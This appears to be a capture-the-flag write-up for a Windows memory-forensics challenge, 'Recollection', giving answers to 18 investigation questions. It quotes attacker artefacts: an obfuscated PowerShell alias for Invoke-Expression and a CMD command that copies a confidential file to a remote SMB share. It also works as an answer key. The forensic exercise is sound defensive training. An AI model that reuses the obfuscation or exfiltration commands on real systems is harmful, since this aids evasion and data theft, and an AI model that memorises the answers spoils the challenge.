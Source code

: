 # Recollection

## Speech
```
A junior member of our security team has been performing research and testing on what we believe to be an old and insecure operating system. We believe it may have been compromised & have managed to retrieve a memory dump of the asset. We want to confirm what actions were carried out by the attacker and if any other assets in our environment might be affected. Please answer the questions below.
```

## Analysis

## Questions
1. What is the Operating System of the machine?
    > Windows 7
2. When was the memory dump created?
    > 2022-12-19 16:07:30
3. After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?
    > (gv '*MDR*').naMe[3,11,2]-joIN''
4. The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?
    > Invoke-Expression
5. A CMD command was executed to attempt to exfiltrate a file. What is the full command line?
    > type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
6. Following the above command, now tell us if the file was exfiltrated successfully?
    > No
7. The attacker tried to create a readme file. What was the full path of the file?
    > C:\Users\Public\Office\readme.txt
8. What was the Host Name of the machine?
    > USER-PC
9. How many user accounts were in the machine?
    > 3
10. In the "\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?
    > \Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt
11. A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?
    > b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1
12. Following the previous question, what is the Imphash of the malicous file you found above?
    > d3b592cd9481e4f053b5362e22d61595
13. Following the previous question, tell us the date in UTC format when the malicious file was created?
    > 2022-06-22 11:49:04
14. What was the local IP address of the machine?
    > 192.168.0.104
15. There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?
    > cmd.exe
16. Attacker might have used an email address to login a social media. Can you tell us the email address?
    > mafia_code1337@gmail.com
17. Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?
    > Wazuh
18. The victim user downloaded an exe file. The file's name was mimicking a legitimate binary from Microsoft with a typo (i.e. legitimate binary is powershell.exe and attacker named a malware as powershall.exe). Tell us the file name with the file extension?
    > csrsss.exe
